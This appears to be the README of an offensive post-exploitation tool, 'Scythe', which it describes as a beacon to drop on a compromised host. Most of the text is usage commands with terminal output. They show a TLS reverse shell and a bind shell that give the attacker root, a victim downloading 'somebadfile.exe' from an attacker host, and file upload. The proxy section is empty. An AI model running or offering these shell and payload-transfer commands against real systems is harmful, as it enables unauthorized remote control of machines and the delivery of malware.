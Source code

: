 # Scythe
All in one beacon to drop on a compromised host


## Build

* Please look at github actions or just use the dockerfile to build for your platform.

## Netcat

Remember to use --proxy if you plan to pivot between hosts

### Reverse Shell

* Victim:

```
root@f44b79805a1e:~/cmd# ./ScytheLinux Netcat --address 172.17.0.2 --reverse --port 8000 --tls
2024/06/13 22:45:18 [*] Rev shell spawning, connecting to 172.17.0.2:8000
2024/06/13 22:45:18 Linux

```

* Attacker:

```
root@fcbc11f4beba:~/cmd# ./ScytheLinux Netcat --listen --port 8000 --tls 
2024/06/13 22:45:06 Listener opened on :8000
2024/06/13 22:45:09 Received connection from 172.17.0.3:57398!
whoami
root

```

### Bind Shell:

* Victim:

```
root@fcbc11f4beba:~/cmd# ./ScytheLinux Netcat --bind --port 8000 --tls
2024/06/13 22:45:57 [*] Binding shell spawning for remote code execution
2024/06/13 22:46:02 Received connection from 172.17.0.3:49050!

```

* Attacker:

```
root@f44b79805a1e:~/cmd# ./ScytheLinux Netcat --address 172.17.0.2 --caller --port 8000 --tls
2024/06/13 22:46:02 [*] Bind shell spawning, connecting to 172.17.0.2:8000
whoami
root

```

## File Transfer

### Download

* Victim

```
./Scythe.exe FileTransfer --download --filename somebadfile.exe --hostname 10.10.10.10 --port 8080 --tls
```

* Attacker

```
./Scythe FileTransfer --listen --port 8080 --tls
```


### Upload

* Attacker

```
./Scythe.exe FileTransfer --filename somebadfile.exe --port 8080 --send --tls
```

* Victim

```
./Scythe.exe FileTransfer --listen --filename somebadfile.exe --port 8080 --tls
```

## Proxy

* Proxy server

```

```


